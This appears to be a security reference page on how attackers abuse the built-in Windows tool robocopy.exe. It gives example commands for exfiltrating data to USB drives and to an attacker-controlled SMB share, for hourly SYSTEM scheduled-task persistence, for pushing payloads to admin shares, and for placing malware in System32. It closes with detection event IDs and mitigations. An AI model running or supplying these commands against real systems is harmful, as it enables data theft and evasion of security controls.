 # robocopy.exe
## What is it?
*```robocopy.exe``` (Robust File Copy) is a **built-in Windows command-line utility** designed for fast and resilient file copying.*
*Unlike traditional ```copy``` or ```xcopy```, it supports **advanced options**, such as:*

- **Copying files while maintaining timestamps & attributes**
- **Mirroring entire directories (backup replication)**
- **Copying files even when interrupted**

*Because it's a **trusted**, **built-in Windows binary**, security tools often **overlook its misuse**.*

## Legitimate Usage
- **Backup & Sync Files** → Copy files while preserving attributes (```/MIR```, ```/COPYALL```)
- **Network File Transfers** → Move data between local and remote systems (```/E```, ```/ZB```)
- **Fast Data Migration** → Copy large datasets efficiently (```/MT```)
- **Automated File Management** → Use in scripts for scheduled backups

## How to abuse it
- **File Transfer & Exfiltration** → Copy sensitive data for theft
- **Bypassing Security Controls** → Uses a trusted Microsoft binary (LOLBas)
- **Persistence via Scheduled Tasks** → Automate data theft on a schedule
- **Privilege Escalation & Lateral Movement** → Copy files over SMB to evade detection

## Example attacks
### 1. Data Exfiltration (Stealthy File Copying)
*Attackers can use ```robocopy.exe``` to **steal files** from a system and move them to an external drive or network share.*

**Copy All Files to an External USB Drive**
```
robocopy C:\SensitiveData E:\Backup /E /ZB /COPYALL /R:0 /W:0 /NDL /NFL /NP
```
**Effect:**
- ```/E``` → Copy all files and subdirectories
- ```/ZB``` → Use restartable mode (bypasses some locked files)
- ```/COPYALL``` → Copy all attributes (timestamps, ACLs, etc.)
- ```/NDL /NFL /NP``` → Avoid logging details to stay stealthy

### 2. Exfiltration Over a Network Share
*Attackers may copy data to a remote SMB share, bypassing detection.*

**Transfer Files Over SMB to an Attacker-Controlled Share**
```
robocopy C:\SensitiveData \\192.168.1.100\share /E /MIR /LOG+:C:\Windows\Temp\log.txt
```
**Effect:**
- *Mirrors the folder to ```\\192.168.1.100\share```*
- *Logs activity to ```log.txt``` for stealth*

### 3. Persistence via Scheduled Tasks
*Attackers can use robocopy.exe to schedule periodic data exfiltration.*

**Set Up a Scheduled Task to Copy Data Every Hour**
```
schtasks /create /tn "BackupJob" /tr "robocopy C:\SensitiveData \\192.168.1.100\backup /E" /sc hourly /ru SYSTEM
```
*Runs every hour under ```SYSTEM```, ensuring stealth and persistence*

### 4. Lateral Movement via SMB & Admin Shares
*Using ```robocopy.exe```, an attacker with admin credentials can copy malware or tools across systems via SMB.*

**Push Malware to Another System's Admin Share**
```
robocopy payloads \\192.168.1.50\C$\Windows\Temp /E
```
*Copies all files in ```payloads``` to the ```C$``` share of ```192.168.1.50```*

### 5. Bypassing File Execution Restrictions
*Attackers can use ```robocopy.exe``` to **bypass AppLocker or Software Restriction Policies (SRP)** by copying files into a trusted directory (e.g., ```C:\Windows\System32```).*

**Copy Malware to a Trusted Directory**
```
robocopy C:\MalwareFolder C:\Windows\System32 /E /COPYALL
```
*Places malware in a **whitelisted directory**, bypassing security controls*

# Detection & Mitigation
## Detection Methods
**Monitor Large File Transfers**
- **Event ID 4663 (File Access)** → Detect bulk file movements
- **Look for ```robocopy.exe``` writing to USB devices (E:, F:, etc.)**

**Detect Suspicious Network Activity**
- **Event ID 5140 (SMB Connection)** → Monitor outbound file transfers
- **Look for unauthorized SMB access (e.g., copying files to external shares)**

**Scheduled Task Creation**
- **Event ID 4698 (Scheduled Task Created)** → Detect persistence attempts

## Mitigation Strategies
- **Restrict External Drive Access** → Block unauthorized USB file transfers.
- **Use Application Control (AppLocker, WDAC)** → Prevent unauthorized ```robocopy.exe``` execution.
- **Monitor File Access Logs** → Detect unusual file transfers.
- **Disable Unused Admin Shares** → Reduce SMB attack surface.
